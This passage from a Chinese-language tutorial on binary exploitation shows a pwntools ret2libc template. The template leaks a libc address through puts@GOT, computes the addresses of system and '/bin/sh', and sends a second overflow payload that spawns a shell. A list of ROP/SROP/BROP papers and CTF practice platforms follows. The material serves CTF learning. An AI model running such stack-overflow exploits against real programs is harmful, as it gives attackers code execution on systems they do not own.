core = p.corefile             # 获取core dump
offset = cyclic_find(core.read(core.rsp, 4))  # 根据RIP确定偏移

# 方法B：手动计算（buffer + saved_rbp）
# offset = 64 + 8  # x64下

# ===== 第三步：收集gadgets =====
rop = ROP(elf)
# 检查必需的gadgets
try:
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
    log.success(f'pop rdi; ret @ {hex(pop_rdi)}')
except:
    log.warning('pop rdi; ret not found, need alternative')

# ===== 第四步：检查安全防护 =====
# NX
if not elf.nx:
    log.info('NX disabled → can use shellcode injection')
    # 直接注入shellcode，无需ROP
    
# PIE
if elf.pie:
    log.info('PIE enabled → need info leak for binary base')
    
# Canary
# 检查二进制中是否有 __stack_chk_fail
if '__stack_chk_fail' in elf.plt:
    log.info('Stack canary enabled → need canary leak or bypass')

# ===== 第五步：构造ROP链 =====
# 根据可用的gadgets和防护机制选择策略

# 策略A：ret2libc（最常见）
# 需要：泄露libc地址 → 计算system和"/bin/sh" → 调用

# 第一次溢出：泄露puts的真实地址
payload1 = b'A' * offset
payload1 += p64(pop_rdi)
payload1 += p64(elf.got['puts'])    # puts@GOT的内容 = libc中puts的真实地址
payload1 += p64(elf.plt['puts'])    # 调用puts@plt → 打印地址
payload1 += p64(elf.symbols['main'])  # 返回main，再次利用

p.sendline(payload1)
p.recvuntil(b'\n')                  # 接收程序原有的输出
leaked = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info(f'Leaked puts address: {hex(leaked)}')

# 计算libc基地址
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# 远程目标需要使用对应版本的libc
# libc = ELF('./libc.so.6')
libc_base = leaked - libc.symbols['puts']
log.info(f'libc base: {hex(libc_base)}')

system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
log.info(f'system: {hex(system_addr)}')
log.info(f'/bin/sh: {hex(bin_sh_addr)}')

# 检查栈对齐
if (libc_base & 0xfff) != 0:
    # 可能需要调整对齐
    ret_gadget = rop.find_gadget(['ret'])[0]

# 第二次溢出：getshell
payload2 = b'A' * offset
# 如果需要栈对齐，加一个ret
if 'ret_gadget' in dir():
    payload2 += p64(ret_gadget)
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)

p.sendline(payload2)
p.interactive()
```

### 16.2.12 进阶资源

- **论文：** "The Geometry of Innocent Flesh on the Bone: Return-into-libc without Function Calls"（Shacham, 2007）——ROP技术的奠基论文
- **论文：** "Framing Signals—A Return to Portable Shellcode"（Bosman & Bos, 2014）——SROP技术的原始论文
- **论文：** "Hacking Blind"（Bittau et al., 2014）——BROP技术论文
- **工具：** pwntools（https://github.com/Gallopsled/pwntools）——PWN必备Python库
- **靶场：** CTFHub、BUUCTF、攻防世界——提供大量PWN练习题
- **书籍：** 《程序员的自我修养——链接、装载与库》——深入理解ELF和动态链接机制
